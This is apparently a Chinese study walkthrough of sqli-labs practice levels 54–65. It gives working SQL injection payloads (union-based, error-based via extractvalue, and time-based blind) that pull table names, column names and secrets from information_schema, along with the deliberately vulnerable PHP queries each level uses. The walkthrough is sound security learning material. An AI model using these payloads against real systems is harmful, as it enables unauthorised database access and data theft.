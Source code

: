 # 二十一、第四部分/page-4 Challenges 答题模式Less-54~64

本系列为进阶学习，主要应用学习。

### Less-54

由前端提示，这一关我们主要考察是字符型注入，且只能尝试十次，以后随机重置数据库。<br>
且这里我们已知数据库名为：CHALLENGES 。

学习实践注入过程：

    ID:2000%27%20oR%201=1--+
    ID:2000%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27challenges%27--+
    ID:2000%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%27challenges%27%20and%20table_name=%27tsquqwumms%27--+
    ID:2000%27%20union%20select%20sessid,secret_S10L,tryy%20from%20tsquqwumms--+

提交 secret ，前端提示 CONGRATS YOU NAILED IT ，注入成功。

> Less-54 -> $sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1";


### Less-55

本关卡和 Less-54 的思路是一致的，这里就不给出payload了，但是这里再提醒一般常用语句：

- or 1=1--+
- 'or 1=1--+
- "or 1=1--+
- )or 1=1--+
- ')or 1=1--+
- ") or 1=1--+
- "))or 1=1--+

> Less-55 -> $sql="SELECT * FROM security.users WHERE id=($id) LIMIT 0,1";


### Less-56

这里和 Less-54/55 思路基本一致，给出payload:

    ?id=-1%27)%20Or%201=1--+
    ?id=-1%27)%20union%20select%201,2,group_concat(table_name) from information_schema.tables where table_schema='challenges'--+
    ?id=-1%27)%20union%20select%20sessid,secret_L24X,tryy%20from%20ikywajvkei--+

> Less-56 -> $sql="SELECT * FROM security.users WHERE id=('$id') LIMIT 0,1";


### Less-57

这里和 Less-54/55/56 思路基本一致，省略 payload 了。

> Less-57 -> <br>
$id= '"'.$id.'"';<br>
$sql="SELECT * FROM security.users WHERE id=$id LIMIT 0,1";


### Less-58

本关卡即使 id=-1 也会返回数据，但允许报错型注入。

给出实验学习payload:

    ?id=2000' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges' ),0x7e))--+
    ?id=2000' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='zc095sw0dp' ),0x7e))--+
    ?id=2000' and extractvalue(1,concat(0x7e,(select concat('_',secret_04AR,'_') from zc095sw0dp ),0x7e))--+

本关卡没有返回数据库中的数据，只是前端显示数据而已，因此不能 union 注入，应该走报错注入思路。

> Less-58 -> $sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1";


### Less-59

本关卡和 Less-58思路基本一致，省略 payload 了。

> Less-59 -> $sql="SELECT * FROM security.users WHERE id=$id LIMIT 0,1";


### Less-60

本关卡和 Less-59思路基本一致，省略 payload 了。

> Less-60 -><br>
$id = '("'.$id.'")';<br>
$sql="SELECT * FROM security.users WHERE id=$id LIMIT 0,1";


### Less-61

本关卡和 Less-60思路基本一致，省略 payload 了。

> Less-61 -> $sql="SELECT * FROM security.users WHERE id=(('$id')) LIMIT 0,1";


### Less-62

此处 union 和报错注入都失效，这里我们就使用延时注入了，此处给出一个示例 payload :

    ?id=1%27)and%20If(ascii(substr((select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27challenges%27),1,1))=119,0,sleep(10))--+

这里使用延时注入，可以适当尝试脚本。

> Less-62 -> $sql="SELECT * FROM security.users WHERE id=('$id') LIMIT 0,1";


### Less-63

本关卡和 Less-62思路基本一致，省略 payload 了。

> Less-63 -> $sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1";


### Less-64

本关卡和 Less-63思路基本一致，省略 payload 了。

> Less-64 -> $sql="SELECT * FROM security.users WHERE id=(($id)) LIMIT 0,1";


### Less-65

本关卡和 Less-63思路基本一致，省略 payload 了。

> Less-65 -> <br>
$id = '"'.$id.'"';<br>
$sql="SELECT * FROM security.users WHERE id=($id) LIMIT 0,1";